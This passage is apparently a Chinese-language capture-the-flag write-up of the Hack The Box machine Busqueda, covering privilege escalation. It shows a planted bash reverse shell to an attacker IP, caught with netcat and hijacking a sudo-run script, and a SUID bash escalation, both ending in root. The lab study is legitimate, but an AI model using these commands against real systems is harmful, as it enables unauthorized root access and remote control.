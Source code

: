 *其实前阵子也想着学学python的subprocess库来着，感觉这是个不错的例子。*

其中 `arg_list = ['./full-checkup.sh']` 指示运行当前目录下的脚本。应该是个可以利用的点：自建同名脚本，执行反向shell连接。


## Privilege Escalation

### sudo提权（机器本身路线）

```bash
靶机：
svc@busqueda:~/.local$ cat full-checkup.sh 
#!/usr/bin/bash
/bin/bash -i >& /dev/tcp/10.xx.xx.xx/4446 0>&1

svc@busqueda:~/.local$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup


Kali：
└─$ nc -lvnp 4446    
listening on [any] 4446 ...
connect to [10.xx.xx.xx] from (UNKNOWN) [10.10.11.208] 41116
root@busqueda:/home/svc/.local# id
id
uid=0(root) gid=0(root) groups=0(root)
```

注意：由于是 `./` 执行脚本，所以需要在脚本开头写Shebang，以及给脚本赋予执行权限。

### SUID提权（非机器本身路线）

枚举SUID，注意到有个bash我都惊了。想着不会这么简单吧，试了一下竟然直接root了……

*后来感觉可能是其他玩家getshell留下的操作。于是重置了一下，果然这个bash就消失了。于是又重新打了一遍。即上过程。*

```bash
$ find / -perm -4000 -exec ls -l "{}" \; 2>/dev/null
……
-rwsr-sr-x 1 root root 1396520 Jan  6  2022 /usr/bin/bash
……

$ which bash
/usr/bin/bash
$ bash -p 
id
uid=1000(svc) gid=1000(svc) euid=0(root) egid=0(root) groups=0(root)
```


## flag: root

```bash
cd /root
ls
ecosystem.config.js
root.txt
scripts
snap
cat root.txt
05d0……9f41
```

---